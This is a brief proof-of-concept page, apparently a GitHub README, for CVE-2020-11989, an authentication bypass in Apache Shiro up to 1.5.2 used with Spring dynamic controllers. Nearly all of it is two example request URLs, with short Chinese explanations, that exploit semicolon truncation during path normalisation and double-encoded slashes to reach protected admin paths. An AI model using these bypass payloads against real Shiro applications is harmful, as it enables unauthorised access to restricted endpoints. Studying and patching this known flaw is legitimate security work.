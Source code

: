 # CVE-2020-11989/Shiro Bypass poc

- shiro<=1.5.2
- with Spring Dynamic Controllers

```
1.getRequestUri在标准化中使用;截断造成的利用场景
https://www.baidu.com/;/path1/admin/home

2.URL二次编码结合spring controller中的/xxx/{name}利用场景
https://www.baidu.com/;/path1/admin/hoa%25%32%66me
```
